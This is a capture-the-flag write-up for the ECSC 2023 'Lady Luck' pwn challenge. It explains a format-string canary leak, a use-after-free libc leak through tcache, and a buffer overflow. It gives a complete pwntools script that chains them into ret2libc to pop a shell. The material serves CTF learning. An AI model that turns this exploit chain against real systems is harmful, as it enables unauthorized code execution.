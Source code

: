```yaml
---
id: 17
title: "ECSC 2023: Lady Luck"
subtitle: "ECSC 2023 Day 3: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, c++, pwn, ctf, ctf blog, writeup"
---
```


## Foreword

This challenge was a lot more interesting than those on Day 1. It featured a use-after-free to leak libc address, though the challenge overall is still a ret2libc challenge.

# Lady Luck

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d3/ladyluck/lady_luck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

It has everything enabled. This means we potentially need to watch out for the canary as well as the PIE offset.

We open the binary in IDA and see that it's a menu based application.
```c
buf = 0;
v5 = 0;
fwrite(&unk_2508, 1uLL, 0x79uLL, stdout);
option1 = read_num();
if ( !option1 || option1 > 3 )
{
  puts("\nAre you trying to cheat Lady Luck?!\n");
  exit(1312);
}
fwrite(&unk_25B0, 1uLL, 0x66uLL, stdout);
read(0, &buf, 6uLL);
fflush(stdin);
if ( !strcmp((const char *)&buf, "fr33c01n5f0r3v3ry0n3") )
{
  coins = 0x174876E7FFLL;
}
else
{
  fprintf(stdout, "\n%s[-] Sorry, this is not correct: ", "\x1B[1;31m");
  fprintf(stdout, (const char *)&buf);
  puts("\x1B[1;34m");
}
menu();
```

There is a format string exploit with an input of up to length 6 in `main()` before it goes into menu. We can thus use it to leak the canary `%8$p`.

Decompiling `menu()` and all its subfunctions, we find out that `buy_pots()` restricts the potions you can buy to a maximum size of `0x82`.
```c
fwrite("\nml: ", 1uLL, 5uLL, stdout);
psize = read_num();
if ( psize <= 0x82 && psize )
{
  if ( check_coins(20 * psize) )
    coins -= 20 * psize;
  fwrite("\nSlot to place it: ", 1uLL, 0x13uLL, stdout);
  pindex = read_num();
  if ( pindex > 9 )
    goto LABEL_13;
  red_pots[pindex] = (char *)malloc(psize);
  strcpy(red_pots[pindex], "Lucky Red    potion x1");
}
```

`sell_pots()` calls `free()` but does not reset the pointer, which allows for a use-after-free or related bugs.
```c
free(red_pots[index]);
fprintf(stdout, "%s\n[+] Sold! You got back 20 coins!%s\n\n", "\x1B[1;32m", "\x1B[1;34m");
coins += 20LL;
```

`show_inventory()` will list out everything in the inventory, *including the freed elements in the array* due to the pointer not being set to null after `free()` (use-after-free!). This can be used to leak whatever we can get by calling `sell_pots()`.
```c
for ( i = 0LL; i <= 9; ++i )
{
  if ( red_pots[i] )
    fprintf(stdout, "Slot [%d]: %s\n", i, red_pots[i]);
  else
    fprintf(stdout, "Slot [%d]: Empty\n", i);
}
```

`discount_code()` defines an input buffer of length `0x80` but allows the user to input up to `0xB7` bytes with `fgets()`, which allows for buffer overflow.
```c
memset(y, 0, 128);
fwrite(
"\nI will tell you the lucky phrase for your next purchase, but you need to give me a good reason why: \n\n",
1uLL,
0x67uLL,
stdout);
fgets(y, 0xB7, stdin);
fwrite("Your code is: [fr33c01n5f0r3v3ry0n3]\n", 1uLL, 0x25uLL, stdout);
```

We can leak the libc address by buying 8 potions of length `0x82` then selling all of them. This is due to the way the tcache bins work (7 same-sized bins), and because of the use-after-free caused by the bad `free()` usage, we can leak the pointer to the 8th freed bin which would point to the main arena.

We still need to keep the top chunk in place to prevent coalescing, so theoretically we need to buy index 0-8 and sell index 0-7, then show index 7. We see a `0x7f` byte in gdb which tells we leaked some address in libc (since it points to the main arena). We set a breakpoint at `show_inventory()` and see our leaked address. Then we can simply `xinfo` to find the static offset to libc base, which is `0x219ce0`.

Chaining everything together, we have:
1. Leak canary with fsb
2. Leak libc with `buy_pots()`, `sell_pots()` and `show_inventory()`
3. Buffer overflow and ret2libc

We can automate the process with pwntools:
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./lady_luck", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./lady_luck", "localhost", gdbscript="b show_inventory")

def sell(n):
	p.sendlineafter(">>", "2")
	p.sendlineafter(":", str(n))

def buy(n):
	p.sendlineafter(">>", "1")
	p.sendlineafter(":", str(0x82))
	p.sendlineafter(":", str(n))

def inventory():
	p.sendlineafter(">>", "3")

# Leak canary
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendlineafter(": ", "%8$p")
p.recvuntil(": ")
canary = int(p.recvline(), 16)
info(f"{hex(canary) =}")

p.sendlineafter(">>", "1")

# allocate 9 bins, free 8 to fill up tcache and get a pointer to the main arena on bin #8
for i in range(10):
	buy(i)

p.sendlineafter(">>", "3")

for i in range(9):
	sell(i)

# leak main arena address, calcullate libc base
inventory()

p.recvuntil("[7]: ")
libc.address = u64(p.recvline().rstrip(b'\n').ljust(8,b'\x00')) - 0x219ce0
success(f"{hex(libc.address) =}")

# perform bof and ret2libc
p.sendlineafter(":", "4")

rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x88: p64(canary), 0x90: p64(0) + rop.chain()})

p.sendafter(":", payload)

p.interactive()
```

`cat flag.txt` for the flag.

## Afterword

The most fun challenge out of all the rest because of the different layers that went into this, from leaking canary to getting a libc address, before finally sending the final payload to pop shell. Honestly I think it would've been easier if I had stronger knowledge on tcache and bins, but nonetheless it was kinda fun.

Throughout the competition, huge thanks to all my teammates for working tirelessly and especially [enigmatrix](https://enigmatrix.me) for his guidance with solving the pwn challenges.

Thanks for reading!